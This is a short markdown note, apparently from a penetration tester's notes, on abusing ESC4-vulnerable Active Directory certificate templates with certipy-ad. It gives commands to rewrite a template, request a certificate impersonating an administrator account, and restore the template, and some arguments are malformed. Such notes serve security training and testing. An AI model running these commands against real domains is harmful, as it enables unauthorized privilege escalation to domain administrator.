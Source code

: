 ```yaml
---
category: Uncategorized
tags: []
---
```

Certificate templates are Active Directory objects with security descriptors that define the permissions AD principals have over them. Weak permissions or excessive access rights can allow non-privileged users to modify sensitive security settings in the template—such as defining EKUs, enabling SANs, or disabling manager approval—making it vulnerable to ESC1-3 exploitation techniques.


# Abusing ESC4 Certificates

Note: We need to use certipy to save the initial configuration of the certificate so that it can be restored later, and it will also modify the template configuration, which will make it vulnerable to ESC1-3.

## Certipy:

- `certipy-ad template -u "afsimmons@megacorpone.com" -p -template 'Vulnerable ESC4 template' -save-old'
-  `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable ESC4 template' -alt 'xadmin@megacorpone.com'
- `certipy-ad template -u "afsimmons@megacorpone.com" -p -template 'vulnerable ESC4 template' -configuration 'Vulnerable ESC4 template.json'
